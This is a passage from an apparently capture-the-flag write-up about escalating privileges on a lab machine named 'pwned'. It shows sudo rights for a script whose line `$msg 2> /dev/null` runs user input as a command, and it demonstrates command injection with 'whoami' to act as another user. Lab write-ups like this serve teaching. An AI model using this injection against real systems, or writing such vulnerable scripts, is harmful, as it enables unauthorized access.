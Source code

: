## privilege escalation
Checking `sudo` privileges
```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

> We are allowed to execute `/home/messenger.sh` as user `selena`.
{: .prompt-info }

Lets check the content of this file.
```bash
ariana@pwned:~$ cat /home/messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```

> The line `$msg 2> /dev/null` is vulnerable.
{: .prompt-info }

That means that we can inject commands when executing the script exploiting the message parameter.
  
Checking if the idea works.
```bash
$ sudo -u selena /home/messenger.sh
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :whoami

Sending message to ariana 
selena

Message sent to ariana :)
```
